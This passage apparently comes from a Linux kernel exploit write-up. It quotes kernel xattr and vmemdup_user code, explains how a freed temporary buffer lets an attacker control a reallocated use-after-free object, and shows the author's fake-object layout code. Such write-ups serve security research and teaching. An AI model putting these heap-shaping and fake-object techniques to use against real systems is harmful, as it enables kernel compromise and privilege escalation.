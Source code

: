 ```c
		return  -ERANGE;
	if (error < 0)
		return error;
	error = 0;
	if (ctx->size) {
		if (ctx->size > XATTR_SIZE_MAX)
			return -E2BIG;
		ctx->kvalue = vmemdup_user(ctx->cvalue, ctx->size);
		if (IS_ERR(ctx->kvalue)) {
			error = PTR_ERR(ctx->kvalue);
			ctx->kvalue = NULL;
		}
	}
	return error;
}
```

```c
void *vmemdup_user(const void __user *src, size_t len)
{
	void *p;

	p = kvmalloc(len, GFP_USER);
	if (!p)
		return ERR_PTR(-ENOMEM);

	if (copy_from_user(p, src, len)) {
		kvfree(p);
		return ERR_PTR(-EFAULT);
	}

	return p;
}
```
And the `simple_xattr` object allocates a temporary buffer to copy the value before object allocation as above, and kvfrees it after copying the value. If you kvfree an object with the size of buddy system order 2, the data of the page will remain as it is, so if you use the above logic well, you can freely control all data including the header data of the reallocated object such as the uaf object. I actively utilized this temporary buffer in my exploit.
```c
((uint64_t *)value)[2] = xattr + 0x20000 + 0x40 - 0x30;
((uint64_t *)value)[3] = 0;
((uint64_t *)value)[4] = xattr + 0x20000 + 0x38 - 0x30;
((uint64_t *)value)[5] = 0x10;
```
The above code is the fake object. When the next field is incremented by 0x30, it points to the fake object, and the next field of the fake object is set to xattr + 0x20000 + 0x40, which is the value field of the target object to be uafed. xattr is the address of a random `simple_xattr` object that was leaked before.
```c
((uint64_t *)value)[0] = xattr + 0x18000;
((uint64_t *)value)[1] = xattr + 0x18000;
((uint64_t *)value)[2] = leakname;
((uint64_t *)value)[3] = 0x3000;
((uint64_t *)value)[4] = xattr + 0x20000 + 0x80;
((uint64_t *)value)[5] = xattr + 0x20000  + 0x60;
((uint64_t *)value)[6] = leakname;
((uint64_t *)value)[7] = 0x3000;
((uint64_t *)value)[8] = xattr + 0x20000 + 0x40;
((uint64_t *)value)[12] = xattr + 0x18000;
((uint64_t *)value)[13] = xattr + 0x20000 + 0x40;
((uint64_t *)value)[14] = leakname;
((uint64_t *)value)[15] = 0x3000;
```